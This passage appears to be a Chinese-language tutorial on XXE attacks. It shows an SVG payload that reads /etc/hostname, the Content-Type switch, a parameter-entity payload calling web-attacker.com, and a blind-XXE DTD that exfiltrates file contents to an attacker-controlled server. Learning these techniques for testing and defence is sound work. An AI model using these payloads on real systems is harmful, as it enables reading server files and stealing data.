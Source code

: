 read.svg
```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size="14" x="0" y="16">&xxe;</text>
```

### Content-Type

常見 HTTP POST 請求如下
```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```
等於下面格式
```
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```

Server 端有可能相容 XML 格式並解析。

### 使用 Parameter entities

某些情況下可能阻擋一般的 entites，這時可以試試看 Parameter entities

Parameter entities 只能用在 DTD（Document Type Definition），Parameter entities 宣告會在前面加上 `%`

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

上面的 `%xxe` 出現在 **DTD 內部子集**（`<!DOCTYPE foo [...]>` 內）因此合法

### Blind XXE - DTD

Blind XXE 的情境下要將資料取出來，可以製作惡意的 DTD 並 Host 在攻擊機上

exploit.dtd
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
```

dtd 中宣告參數實體 `file` 讀取檔案。參數實體 `eval` 中包含另一個動態宣告的參數實體 `exfil`，`exfil`  會發送 HTTP 請求將資料帶出

XXE Payload
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://YOUR-SERVER/exploit.dtd"> %xxe;]>
```
